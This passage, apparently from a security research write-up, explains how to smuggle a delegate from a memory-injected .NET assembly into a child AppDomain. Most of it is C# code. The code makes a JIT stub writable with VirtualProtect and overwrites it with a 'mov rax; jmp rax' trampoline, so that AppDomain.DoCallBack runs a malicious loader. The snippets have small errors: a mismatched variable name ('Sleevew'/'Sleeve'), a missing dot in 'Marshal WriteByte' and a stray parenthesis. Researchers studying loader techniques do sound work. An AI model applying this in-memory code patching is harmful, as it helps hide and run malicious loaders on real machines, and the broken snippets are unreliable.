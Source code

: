 The proxy object approach uses AppDomain.CreateInstanceAndUnwrap() to get an object proxy. This isn’t available to us because of the aforementioned assembly resolution issues. But there’s another interesting method: AppDomain.DoCallBack(). This method consumes delegates, and delegates can be serialized between AppDomains as long as the function they wrap can be resolved.

For example, the following code can run a function in the child AppDomain and produce no ill assembly resolution issues:

```
var call = new CrossAppDomainDelegate(Console.Beep);
child.DoCallBack(call);
```

In our testing, we found a way to manipulate this process to run a delegate that cannot be resolved in the target AppDomain, which makes it possible to achieve our ultimate goal: smuggling delegates. Our present objective is to call a delegate in the target AppDomain that resides in an unresolvable assembly. We create two delegates – one that can be successfully resolved and thus marshaled into the child AppDomain and the other containing malicious code in our memory-injected assembly:

```
var Sleevew = new CrossAppDomainDelegate(Console.Beep);
var Ace = new CrossAppDomainDelegate(ActivateLoader);
```

The ActivateLoader() method carries out our malicious task; this will be described later. For now, understand that it can’t be called directly in the child AppDomain because it lives in a “no context” assembly. But we can ask the JIT to compile these two delegates and then patch the former so that, when called, it jumps directly to the latter. First, compile the delegates:

```
RuntimeHelpers.PrepareDelegate(Sleeve);
RuntimeHelpers.PrepareDelegate(Ace);
```

Now obtain addresses for the JIT stubs that call into these functions. We can simply use reflection to grab private fields:

```
var flags = BindingFlags.Instance | BindingFlags.NonPublic;
var codeSleeve = (IntPtr)Sleeve.GetType().GetField("_methodPtrAux", flags).GetValue(Sleeve);
var codeAce = (IntPtr)Ace.GetType().GetField("_methodPtrAux", flags).GetValue(Ace);
```

In some cases the JIT stub may reside in writable memory, but testing showed that this is not always true. So for completeness, we need to mark it writable, patch the code with “mov rax, &delegate; jmp rax” – where &delegate is the address of our malicious delegate’s stub:

```
VirtualProtect(codeSleeve, new UIntPtr(12), 0x4, out perms);
Marshal.WriteByte(codeSleeve, 0x48);
Marshal WriteByte(IntPtr.Add(codeSleeve, 1), 0xb8);
Marshal.WriteIntPtr(IntPtr.Add(codeSleeve, 2), codeAce);
Marshal.WriteByte(IntPtr.Add(codeSleeve, 10), 0xff);
Marshal.WriteByte(IntPtr.Add(codeSleeve, 11), 0xe0);
VirtualProtect(codeSleeve, new UIntPtr(12), perms, out perms));
```

With this code patch in place, when we call AppDomain.DoCallBack() the child AppDomain will end up calling the compiled code for our malicious delegate. There are some important caveats, though. Any code in this delegate that triggers AppDomain / assembly validation will cause an exception, owing to the fact that this smuggled delegate comes from an unresolvable assembly. So this delegate needs to be written such that it does simple, innocuous things. But it’s not too hard to accomplish our overall goal using this approach.
